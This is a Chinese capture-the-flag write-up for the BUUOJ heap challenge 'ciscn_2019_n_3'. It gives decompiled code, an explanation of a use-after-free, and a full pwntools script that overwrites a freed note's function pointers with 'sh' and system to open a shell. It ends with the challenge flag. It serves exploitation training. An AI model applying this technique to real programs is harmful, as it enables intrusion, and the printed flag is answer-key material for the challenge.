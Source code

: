# ciscn_2019_n_3

[题目地址](https://buuoj.cn/challenges#ciscn_2019_n_3)

第一道在没看wp前有思路且思路和正确解法差不多的题。“差不多”就很灵性，运气不好没选到正确的姿势。

```c
undefined4 main(void)

{
  float fVar1;
  int iVar2;
  
  alarm(300);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  puts("================================================================================");
  puts("");
  puts("\tCloud Note (Free Edition)");
  puts("Free Edition can only use within 300 seconds");
  puts("Profession Edition only sale $9.999999");
  system("date");
  puts("================================================================================");
  while( true ) {
    while( true ) {
      while( true ) {
        puts("1. New note");
        puts("2. Del note");
        puts("3. Show note");
        puts("4. Purchase Pro Edition");
        iVar2 = rand();
        fVar1 = _DAT_08048e50 * ((float)iVar2 / _DAT_08048e4c);
        iVar2 = ask("CNote");
        if (iVar2 != 2) break;
        do_del();
      }
      if (iVar2 < 3) break;
      if (iVar2 == 3) {
        do_dump();
      }
      else {
        if (iVar2 != 4) goto LAB_08048b22;
        printf("\tBalance: %f\n",(double)fVar1);
        puts("\tYou dont have enough money!\n");
      }
    }
    if (iVar2 != 1) break;
    do_new();
  }
LAB_08048b22:
  puts("Thanks for using CNote! Bye~");
  return 0;
}
```

来了堆题它又来了。这种题创建笔记的函数是关键。

```c
void do_new(void)

{
  code **ppcVar1;
  int index;
  void *pvVar2;
  uint __size;
  code *pcVar3;
  
  index = ask("Index");
  if ((index < 0) || (0x10 < index)) {
    puts("Out of index!");
  }
  else if (*(int *)(records + index * 4) == 0) {
    pvVar2 = malloc(0xc);
    *(void **)(records + index * 4) = pvVar2;
    ppcVar1 = *(code ***)(records + index * 4);
    *ppcVar1 = rec_int_print;
    ppcVar1[1] = rec_int_free;
    puts("Blob type:");
    puts("1. Integer");
    puts("2. Text");
    index = ask(&DAT_08048c63);
    if (index == 1) {
      pcVar3 = (code *)ask("Value");
      ppcVar1[2] = pcVar3;
    }
    else {
      if (index != 2) {
        puts("Invalid type!");
        return;
      }
      __size = ask("Length");
      if (0x400 < __size) {
        puts("Length too long, please buy pro edition to store longer note!");
        return;
      }
      pcVar3 = (code *)malloc(__size);
      ppcVar1[2] = pcVar3;
      printf("Value > ");
      fgets((char *)ppcVar1[2],__size,stdin);
      *ppcVar1 = rec_str_print;
      ppcVar1[1] = rec_str_free;
    }
    puts("Okey, got your data. Here is it:");
    (**ppcVar1)(ppcVar1);
  }
  else {
    printf("Index #%d is used!\n",index);
  }
  return;
}
```

一般笔记的结构都由“笔记头”和内容组成。笔记头跟堆块头的差不多，都是程序内开放给逻辑而不是用户使用的。反之内容就完全是用户控制了。比如这题的笔记头从`pvVar2 = malloc(0xc);`得来。0xc是12个字节，由于是32位系统，`ppcVar1 = *(code ***)(records + index * 4);`取出前4个字节并将其指向`rec_int_print`。`ppcVar1[1] = rec_int_free;`是个数组取索引，代表第4到第8个字节是指向`rec_int_free`的指针。最后剩下的4个字节用于存储用户数据。如果数据类型是数字，就直接存进去；如果是字符串，就malloc一个堆块，最后4个字节是指向那个堆块的指针。`rec_int_free`函数指针内部有个很明显的uaf。

```c
void rec_int_free(void *param_1)

{
  free(param_1);
  puts("Note freed!");
  return;
}

void rec_str_free(void *param_1)

{
  free(*(void **)((int)param_1 + 8));
  free(param_1);
  puts("Note freed!");
  return;
}
```

思路就是利用uaf让我们能够修改笔记头的两个函数指针其中任意一个为system。首先create三个堆，数据存储类型均为数字。然后free前2个堆，这时fastbin里面的链表为`0号笔记头->1号笔记头`，第3个堆不动，是为了在执行free前2个堆的操作时让它们不与topchunk合并的。此时create一个大小为0xc的堆块3，1号笔记头被用作堆块3的笔记头，0号笔记头就被用作3号堆的用户数据了。这回我们就能操控0号笔记头的函数指针了。修改为system后getshell。

```python
from pwn import *
context.log_level='debug'
p=remote('node4.buuoj.cn',26236)
def create(index):
	p.sendlineafter(">",'1')
	p.sendlineafter("Index",str(index))
	p.sendlineafter("2. Text",'1')
	p.sendlineafter("Value > ",'1')
 
def dump(index):
	p.sendlineafter(">",'3')
	p.sendlineafter(">",str(index))
def delete(index):
	p.sendlineafter(">",'2')
	p.sendlineafter(">",str(index))
create(0)
create(1)
delete(0)
delete(1)
payload=flat([b'sh\x00\x00',p32(0x08048500)])   #前4个字节覆盖0号笔记头原来的rec_int_print函数指针为sh，后4个字节覆盖0号笔记头原来的rec_int_free函数指针为system的地址
p.sendlineafter(">",'1')
p.sendlineafter("Index",'3')
p.sendlineafter("2. Text",'2')
p.sendlineafter("Length > ",str(0xc))
p.sendlineafter("Value > ",payload)
delete(0) #这时删除0号堆块会free掉用户内容和rec_int_print函数指针。刚刚已经将rec_int_print函数指针覆盖为sh了，因此这里就是在执行system("sh")
p.interactive()
```

同样的思路但是create时选字符串模式就不行了。运气差到2选1都错。

## Flag
> flag{48353801-a783-4058-b093-7c1e964ac4f3}
